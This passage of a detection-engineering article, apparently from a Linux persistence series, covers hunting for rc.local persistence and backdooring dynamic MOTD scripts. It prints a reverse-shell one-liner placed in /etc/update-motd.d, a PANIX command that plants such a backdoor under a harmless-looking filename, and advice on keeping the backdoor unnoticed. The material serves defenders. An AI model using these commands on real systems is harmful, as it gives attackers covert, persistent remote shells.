 ### Hunting for T1037.004 - run control (RC) scripts

Similar to the System V Init detection opportunity limitations, this technique deals with the same limitations due to timing. Thus, hunting for RC Script persistence is important. We can hunt for this technique by looking at `/etc/rc.local` file creations and/or modifications and the existence of the `rc-local.service` systemd unit/startup item. The [Persistence via rc.local/rc.common](https://github.com/elastic/detection-rules/blob/main/hunting/linux/queries/persistence_via_rc_local.toml) rule contains several ES|QL and OSQuery queries that aid in hunting for this technique. 

## T1037 - boot or logon initialization scripts: Message of the Day (MOTD)

[Message of the Day (MOTD)](https://linux.die.net/man/5/motd) is a feature that displays a message to users when they log in via SSH or a local terminal. To display messages before and after the login process, Linux uses the `/etc/issue` and the `/etc/motd` files. These messages display on the command line and will not be seen before and after a graphical login. The `/etc/issue` file is typically used to display a login message or banner, while the `/etc/motd` file generally displays issues, security policies, or messages. These messages are global and will display to all users at the command line prompt. Only a privileged user (such as root) can edit these files.

In addition to the static `/etc/motd` file, modern systems often use dynamic MOTD scripts stored in `/etc/update-motd.d/`. These scripts generate dynamic content that can be included in the MOTD, such as current system metrics, weather updates, or news headlines.

These dynamic scripts are shell scripts that execute shell commands. It is possible to create a new file within this directory or to add a backdoor to an existing one. Once the script has been granted execution permissions, it will execute every time a user logs in.

RHEL derivatives do not make use of dynamic MOTD scripts in a similar way as Debian does, and are not susceptible to this technique. 

An example of a backdoored `/etc/update-motd.d/` file could look like this:

```
#!/bin/sh
nohup setsid bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'
```

Like before, MITRE does not have a specific technique related to this. Therefore we classify this technique as [T1037](https://attack.mitre.org/techniques/T1037/).

### Persistence through T1037 - message of the day (MOTD)

A [payload](https://github.com/Aegrah/PANIX/blob/main/panix.sh#L1644-L1669) similar to the one presented above should be used to ensure the backdoor does not interrupt the SSH login, potentially triggering the user’s attention. We can leverage PANIX to set up persistence on Debian-based systems through MOTD like so:

```
 > sudo ./panix.sh --motd --default --ip 192.168.1.1 --port 2008
> [+] MOTD backdoor established in /etc/update-motd.d/137-python-upgrades
```

To trigger the backdoor, we can reconnect to the server via SSH or reconnect to the terminal.

![Events generated as a result of Message of the Day (MOTD) persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image2.png "Events generated as a result of Message of the Day (MOTD) persistence establishment")
